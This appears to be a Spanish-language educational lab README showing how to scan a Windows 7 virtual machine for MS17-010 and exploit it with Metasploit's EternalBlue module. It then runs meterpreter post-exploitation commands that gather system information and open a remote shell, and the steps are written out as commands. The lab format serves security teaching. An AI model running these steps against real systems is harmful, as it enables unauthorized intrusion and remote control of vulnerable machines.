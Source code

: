 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Inciar virtualbox y encender las VM de Kali Linux y Windows 7 64bits**

**Utilizar un scanner auxiliar para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
search ms17_010
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Debe colocar la dirección IP del host windows 7 64 bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**utilizar un módulo para explotar la vulnerabilidad ms17_010**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Explotación**
```bash
sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

[Sobre Metasploit Framework] (https://www.metasploit.com/)

[Comandos usados en  Measploit Framework] (https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/)

[Fundamentos de meterpreter] (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
